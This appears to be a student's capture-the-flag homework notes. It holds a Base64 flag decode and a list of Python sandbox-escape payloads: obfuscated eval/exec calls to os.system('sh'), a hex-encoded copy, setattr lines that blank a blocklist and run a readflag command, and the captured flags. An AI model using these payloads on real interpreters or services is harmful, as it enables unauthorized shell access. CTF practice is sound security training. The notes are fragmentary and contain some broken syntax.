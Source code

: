# Challenge 7: Attendance Flag
ZmxhZ3tmMXIzYklyZF9jaDRuX0JhNTFjX3RyYWluMW5nXzIhIX0K -> Base64 -> flag{f1r3bIrd_ch4n_Ba51c_train1ng_2!!}


# HW 2-2

__builtins__.eval('''"__import__('os')%csystem('sh')" % 0x2e''')

__builtins__.eval("__import__('os')" + chr(46) + "system('sh')")

getattr(__import__('os'), "system")('sh')

"__import__('os').system('sh')"

'5f5f696d706f72745f5f28276f7327292e73797374656d282773682729'
'5f5f696d706f72745f5f28276f7327292e73797374656d282773682729'

exec("__import__('os')" + chr(46) + "system('sh')")
exec("__import__('os')" + chr(46) + "system('sh')")

exec '__import__("os") + chr(46) + system('sh')"


setattr(__import__('__main__'),'blocklist','')

setattr(__import__('__main__'),'eq','''eval("__import__('os')%csystem('%creadflag %cflag')" % (0x2e, 0x2f, 0x2f))''')

__import__("os").system('sh')

flagéwhy_py7h0n_2_i5_d34d????ToT..._I_d0nt_kn0w_h0w_t0_use_py7h0n_3_QAQ_dfad0eb114f307da44b4c7a7e38c7814è

flag{why_py7h0n_2_i5_d34d????ToT..._I_d0nt_kn0w_h0w_t0_use_py7h0n_3_QAQ_dfad0eb114f307da44b4c7a7e38c7814}